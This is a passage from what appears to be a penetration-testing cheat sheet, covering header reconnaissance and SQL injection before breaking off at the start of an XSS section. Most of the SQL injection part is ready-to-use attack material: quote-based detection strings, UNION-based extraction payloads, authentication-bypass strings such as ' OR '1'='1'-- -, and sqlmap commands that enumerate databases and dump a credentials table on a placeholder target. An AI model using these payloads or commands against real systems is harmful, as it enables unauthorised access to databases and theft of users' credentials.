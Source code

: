 #### 🧠 Common Headers to Check

```
X-Powered-By
Server
Cookie
Set-Cookie
```

***

### III. 💣 SQL Injection (SQLi)

#### 🧩 Basic Detection

Append a single quote (`'`) and observe for SQL errors.

Example:

```
?id=1'
?id=1 or 1=1--
```

#### ⚙️ Automated Scanning

```bash
sqlmap -u "http://target.com/page.php?id=1" --batch --dbs
```

#### 🧠 Manual Exploitation

```bash
?id=1 UNION SELECT 1,2,3--
?id=-1 UNION SELECT 1,@@version,3--
```

#### 💣 Dump Credentials

```bash
sqlmap -u "http://target.com/login.php" --dump -D users -T creds
```

#### ⚙️ Bypass Authentication

```sql
' OR '1'='1'-- -
' OR 1=1#
admin'--
```

***

### IV. ⚙️ Cross-Site Scripting (XSS)

#### 🧠 Reflected XSS
